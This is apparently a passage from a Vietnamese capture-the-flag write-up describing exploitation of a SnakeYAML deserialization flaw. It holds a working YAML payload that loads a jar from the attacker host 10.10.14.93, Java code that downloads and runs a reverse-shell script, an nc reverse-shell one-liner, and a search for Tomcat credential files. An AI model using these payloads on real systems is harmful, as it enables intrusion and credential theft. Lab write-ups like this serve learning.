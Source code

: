 ![image](https://hackmd.io/_uploads/B1onJ_kn0.png)

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.93:8888/yaml-payload.jar"]
  ]]
]
```
### YAML payload

![image](https://hackmd.io/_uploads/rks2gOJhC.png)

Ta sẽ viết lại AwesomeScriptEngineFactory.java để kích hoạt reverse shell
```
public AwesomeScriptEngineFactory() {
        try {
        // Tải reverse shell về máy mục tiêu
            Runtime.getRuntime().exec("curl http://10.10.14.93:8888/revshell.sh -o /tmp/revshell.sh");
        // Lưu thi file    
            Runtime.getRuntime().exec("bash /tmp/revshell.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```
Sau khi chỉnh lại payload ta sẽ compile `AwesomeScriptEngineFactory.java ` thành jar file
```
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```
`revshell.sh` sẽ là lệnh tạo reverse shell 
```
#!/bin/bash/sh
mkfifo /tmp/lol;nc 10.10.14.93 1234 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
```

![image](https://hackmd.io/_uploads/Byd-u_12R.png)

Tuy nhiên phải switch sang user admin mới có thể lấy được flag

## Post-Exploit 
### Lateral Movement 
Để có thể switch sang ta sẽ tìm file conf vì khả năng credentail ở đó
```
$ find / -name tomcat 2>/dev/null
```
![image](https://hackmd.io/_uploads/HyJlK_y3R.png)

Thấy 2 file `tomcat-users.xml` và `tomcat-users.xsd` có thể chứa credential
